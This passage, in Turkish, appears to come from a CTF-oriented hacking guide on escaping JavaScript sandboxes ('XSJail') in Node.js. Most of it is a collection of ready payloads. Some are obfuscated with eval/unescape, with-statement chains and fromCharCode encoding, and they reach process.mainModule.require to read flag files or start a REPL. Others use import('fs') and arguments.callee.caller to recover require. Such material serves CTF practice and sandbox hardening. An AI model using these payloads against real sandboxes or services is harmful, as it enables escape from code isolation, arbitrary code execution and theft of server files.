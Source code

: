 Kullanmak için yalnızca sınırlı bir karakter setiniz varsa, XSJail sorunları için bu diğer geçerli çözümleri kontrol edin:
```javascript
// eval + unescape + regex
eval(unescape(/%2f%0athis%2econstructor%2econstructor(%22return(process%2emainModule%2erequire(%27fs%27)%2ereadFileSync(%27flag%2etxt%27,%27utf8%27))%22)%2f/))()
eval(unescape(1+/1,this%2evalueOf%2econstructor(%22process%2emainModule%2erequire(%27repl%27)%2estart()%22)()%2f/))

// use of with
with(console)log(123)
with(/console.log(1)/)with(this)with(constructor)constructor(source)()
// Just replace console.log(1) to the real code, the code we want to run is:
//return String(process.mainModule.require('fs').readFileSync('flag.txt'))

with(process)with(mainModule)with(require('fs'))return(String(readFileSync('flag.txt')))
with(k='fs',n='flag.txt',process)with(mainModule)with(require(k))return(String(readFileSync(n)))
with(String)with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)with(mainModule)with(require(k))return(String(readFileSync(n)))

//Final solution
with(
/with(String)
with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
with(mainModule)
with(require(k))
return(String(readFileSync(n)))
/)
with(this)
with(constructor)
constructor(source)()

// For more uses of with go to challenge misc/CaaSio PSE in
// https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/#misc/CaaSio%20PSE
```
Eğer **her şey tanımsızsa** güvenilmeyen kodu çalıştırmadan önce (örneğin [**bu yazıda**](https://blog.huli.tw/2022/02/08/en/what-i-learned-from-dicectf-2022/#miscx2fundefined55-solves)) yararlı nesneleri "hiçbir şeyden" oluşturmak mümkündür ve bu, rastgele güvenilmeyen kodun çalıştırılmasını istismar etmek için kullanılabilir:

* import() kullanarak
```javascript
// although import "fs" doesn’t work, import('fs') does.
import("fs").then(m=>console.log(m.readFileSync("/flag.txt", "utf8")))
```
* `require`'a dolaylı erişim

[Buna göre](https://stackoverflow.com/questions/28955047/why-does-a-module-level-return-statement-work-in-node-js/28955050#28955050) modüller Node.js tarafından bir fonksiyon içinde sarılır, şöyle:
```javascript
(function (exports, require, module, __filename, __dirname) {
// our actual module code
});
```
Bu nedenle, eğer o modülden **başka bir fonksiyonu çağırabiliyorsak**, o fonksiyondan **`require`** erişmek için `arguments.callee.caller.arguments[1]` kullanmak mümkündür:
